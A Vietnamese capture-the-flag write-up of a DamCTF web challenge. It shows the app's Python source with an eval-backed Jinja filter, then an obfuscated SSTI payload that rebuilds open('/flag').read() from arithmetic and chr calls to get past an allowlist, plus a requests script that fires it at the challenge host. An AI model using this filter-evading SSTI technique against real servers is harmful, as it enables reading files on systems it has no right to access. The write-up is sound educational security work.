 ![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/4.png)
</br>
tôi rất là vui vì đội solve bài này lượt thứ 6 là đội của tôi, đây là lần đầu trong một cuộc thi ctf mà tôi solve nhanh như vậy
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/5.png)

bài này tác giả có cho `super-secure-translation-implementation.zip` một file zip để tải về nhưng thật ra bên trong chẳng có gì ngoài tệp __Dockerfile__ giúp ta xác định được vị trí của flag
</br> đây là giao diện của website khi ta vào
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/6.png)
source code được hiển thị rõ
```@server.route("/")
@server.route("/<path>")
def index(path=""):
    # Show app.py source code on homepage, even if not requested.
    if path == "":
        path = "app.py"

    # Make this request hackproof, ensuring that only app.py is displayed.
    elif not os.path.exists(path) or "/" in path or ".." in path:
        path = "app.py"

    # User requested app.py, show that.
    with open(path, "r") as f:
        return render_template("index.html", code=f.read())
  ``` 
  Bằng cách chèn __/path__ giúp ta có thể đọc file trong thư mục __/chal__ vì dấu `..` và `/` đã bị filter nên không thể đọc bên ngoài thư mục __/chall__
  ```
from check import detect_remove_hacks
from filters import *
```
để ý đoạn này, tệp app.py có tham chiếu đến 2 file khác là __check.py__ và __filters.py__ vậy ta chỉ cần truy cập đến 
đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/check.py` để đọc tệp __check.py__ 
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/7.png)
và đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/filters.py` để đọc tệp __filters.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/8.png)
</br>tóm tắt là tại path __/secure_translate__ chỉ cần chèn payload vào parameter __?payload=__ thì ta sẽ thấy web bị lỗi ssti, chỉ có một vài  ký tự được cho phép còn lại đều bị chặn
```  
allowlist = [
        "c", "{","}","d","6","l","(","b","o","r",")",'"',"1","4","+","h","u","-","*","e","|","'",
 ]
```
và ở tệp __app.py__ có những dòng lệnh này
```
server = Flask(__name__)

# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```
tóm gọn là hàm e là __eval__ và hàm ch là __chr__, ta sẽ quan tâm một xíu ở hàm e (đọc file filters.py)
```
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.

    print(f"Evaluating: {x}")

    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]

    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."

    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"

    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```
4 ký tự đầu không được là __open__ và __exec__ , payload ban đầu của tôi là `{""+open('/flag').read()|e}` để bypass filter tôi đã sửa thành `{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}` độ dài payload 153, giới hạn độ dài của tác giả là 161
flag là dam{p4infu1_all0wl1st_w3ll_don3}

```

import requests
s = requests.session()
payload='''{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((46%2b46%2b6-1)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((46%2b46%2b6-1)|ch)%2b'd()')|e}}''' 

url = 'https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload='+payload
res = s.get(url).text
print(res)
```
</br>
